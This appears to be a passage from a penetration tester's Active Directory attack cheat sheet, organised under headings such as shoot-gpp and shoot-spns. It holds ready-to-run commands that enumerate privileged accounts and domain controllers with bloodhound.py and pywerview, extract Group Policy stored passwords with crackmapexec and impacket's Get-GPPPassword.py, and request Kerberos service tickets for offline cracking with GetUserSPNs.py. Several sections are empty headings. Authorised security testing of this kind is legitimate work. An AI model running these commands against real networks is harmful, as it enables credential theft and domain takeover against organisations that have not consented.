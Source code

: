 ```sh
bloodhound.py -c Group --domain $zdom_fqdn -dc $zdom_dc_fqdn -u $ztarg_user_name -p $ztarg_user_pass
cat users.json | jq -r '.data[].Properties | select((.admincount==true) and .enabled==true) | .samaccountname'
```

#### <a name='shoot-priv-machines'></a>shoot-priv-machines
```sh
# DC v1
dig -t SRV _gc._tcp.$zdom_fqdn | grep "^[a-z]"

# DC v2
ztarg_ou="OU=Domain Controllers,"$zdom_dn; ztarg_ou_nick="dc"
echo $ztarg_ou; pywerview.py get-adobject -w $zdom_fqdn -u $ztarg_user_name -p $ztarg_user_pass --dc-ip $zdom_dc_ip -a "$ztarg_ou" > "$zcase""_get-adobject_""$ztarg_ou_nick"".txt"

# DC v2 : list the samaccountname
echo $ztarg_ou
cat "$zcase""_get-adobject_""$ztarg_ou_nick"".txt" | grep samaccountname |awk '{print $2}'

DS-Replication-Get-Changes
DS-Replication-Get-Changes-In-Filtered-Set

# Computers with older OS versions


# Computers with password last set over 90 days ago
 

```

#### <a name='shoot-gpo'></a>shoot-gpo
```bash
```

#### <a name='shoot-gpp'></a>shoot-gpp
```bash
# cme
crackmapexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_pasword
crackmapexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_autologin
# impacket
Get-GPPPassword.py $zz@$zdom_dc_ip
```

#### <a name='shoot-shares'></a>shoot-shares

#### <a name='shoot-mssql-servers'></a>shoot-mssql-servers

#### <a name='shoot-spns'></a>shoot-spns
```sh
# https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py
GetUserSPNs.py $zdom_fqdn/$ztarg_user_name -k -no-pass -dc-ip $zdom_dc_ip -request >> getuserspns_$zdom_dc".data"
GetUserSPNs.py $zz -dc-ip $zdom_dc_ip -request >> getuserspns_$zdom_dc".data"
grep "krb5tgs" getuserspns_$zdom_dc".data" > getuserspns_$zdom_dc".tgs"
```
